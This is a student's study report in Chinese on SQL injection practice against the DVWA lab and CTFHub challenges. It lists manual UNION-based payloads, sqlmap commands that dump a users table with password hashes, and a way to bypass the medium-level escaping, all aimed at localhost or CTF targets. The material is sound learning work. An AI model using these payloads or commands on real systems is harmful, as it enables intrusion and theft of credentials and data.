# 张心玥学习报告02-2
# 学习笔记

## DVWA靶场SQL注入
### 手工注入LOW
已知数据库为dvwa

1. 继续查询数据库中的表
   输入：1' union select 1,table_name COLLATE utf8_general_ci from information_schema.tables where table_schema='dvwa
   得到
   

2. 查询表中的字段
   输入：1' union select 1,group_concat(column_name) COLLATE utf8_general_ci from information_schema.columns where table_name='users
   得到
   

3. 查询表中的内容
   输入：1' union select group_concat(user_id,first_name,last_name),group_concat(user,password) COLLATE utf8_general_ci from users#
   得到
   

得到的密文为MD5加密，解密即可得到密码

注：手工注入的时候遇到Illegal mix of collations for operation 'UNION'是因为字符编码问题，在sql语句from前添加 COLLATE utf8_general_ci 就可

### SQLmap LOW
运行sqlmap
1. 检测网站的漏洞
   输入：python sqlmap.py -u"http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=jvkp3tq5cugu8emi4liqljfhrf"
   得到
   
   注：-u:url

2. 获取数据库名
   输入：python sqlmap.py -u"http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=jvkp3tq5cugu8emi4liqljfhrf" --dbs
   得到
   
   注：dbs：database sever（获取所有数据库名）

3. 获取指定数据库内容
   输入：python sqlmap.py -u"http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=jvkp3tq5cugu8emi4liqljfhrf" -D dvwa --tables
   得到
   
   注：-D：database 指定想要获取数据库的名
   --tables 列出数据库表

4. 获取指定数据库列/表项
   输入：python sqlmap.py -u"http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=jvkp3tq5cugu8emi4liqljfhrf" -D dvwa -T users --columns
   得到
   
   注：-T table 指定想要获取的表名
   --columns 列出表项/列

5. 获取数据
   输入：python sqlmap.py -u"http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=jvkp3tq5cugu8emi4liqljfhrf" -D dvwa -T users --dump
   得到
   
   注：--dump 读取数据

得到的密文为MD5加密，解密即可得到密码

### SQL注入防御
过滤用户输入内容，不让输入sql语句，将特殊符号替换成空，或者判断用户输入sql语句就终止执行。

### SQL注入Medium
medium转义了特殊字符，如
原本sql语句：
1' union select 1,table_name COLLATE utf8_general_ci from information_schema.tables where table_schema='dvwa
转义为：
1\' union select 1,table_name COLLATE utf8_general_ci from information_schema.tables where table_schema=\'dvwa
所以sql语句错误，无法正常执行
解决办法：
输入内容中避免特殊字符存在，进行等价替换，如：
将 'dvwa' 替换成 database()
或
将 'dvwa' 替换成 0x64767761
注：0x64767761 为 dvwa 的十六进制格式

### ctfhub SQL注入
#### 整数型注入
输入1原始页面

1. 判断是否存在注入
   1. 加单引号
   得到
   sql语句出错，程序无法正常从数据库中查询出数据，存在异常。
   1. 加 and 1=1
   得到
   语句执行正常。
   1. 加 and 1=2
   得到
   语句可以正常执行，但是无法查询出结果，存在异常。
   满足以上三点，判断有整数型注入。

2. 查询字段数量
   1. 输入 1 order by 1
   得到
   1. 输入 1 order by 2
   得到
   1. 输入 1 order by 3
   得到 
   所以判断字段数为2

3. 查询SQL语句插入
   注：此时要先保证之前的数据查不出来，之后再union。因为id=-1数据不存在数据库中。所以继续查询。
   输入 -1 union select 1,2
   得到
   所以判断2处可以插入sql语句

4. 获取数据库名
   1. 获取当前数据名
   输入 -1 union select 1,database()
   得到
   所以当前数据库名称为sqli

   1. 获取所有数据库名
   输入 -1 union select 1,group_concat(schema_name)from information_schema.schemata
   得到

5. 获取数据库表名
   1. 获取当前数据库所有表名
   输入 -1 union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli'
   得到

   1. 逐个获取表名
   输入 -1 union select 1,(select table_name from information_schema.tables where table_schema='sqli' limit 0,1)
   得到
   输入 -1 union select 1,(select table_name from information_schema.tables where table_schema='sqli' limit 1,1)
   得到

6. 获取字段名
   输入 -1 union select 1,group_concat(column_name) from information_schema.columns where table_schema='sqli' and table_name='flag'
   得到

7. 获取数据
   输入 -1 union select 1,group_concat(flag) from sqli.flag
   得到

至此得到flag：
ctfhub{5f3c2363dc7cb398a7e24388}

#### 字符型注入
输入1原始界面

所以需要规避掉单引号再插入查询语句
1. 输入 1’
   得到
   所以确定闭合方式：1’

2. 查询数据库名
   输入 -1' union select 1,database()#
   得到
   数据库名为sqli

3. 获取数据库表名
   输入 -1' union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli'#
   得到

4. 获取数据库中字段
   输入 -1' union select 1,group_concat(column_name) from information_schema.columns where table_schema='sqli' and table_name='flag'#
   得到

5. 获取数据
   输入 -1' union select flag,1 from flag#
   得到
至此得到flag：
ctfhub{0a0a5e27bc8a21d19fe224c1}
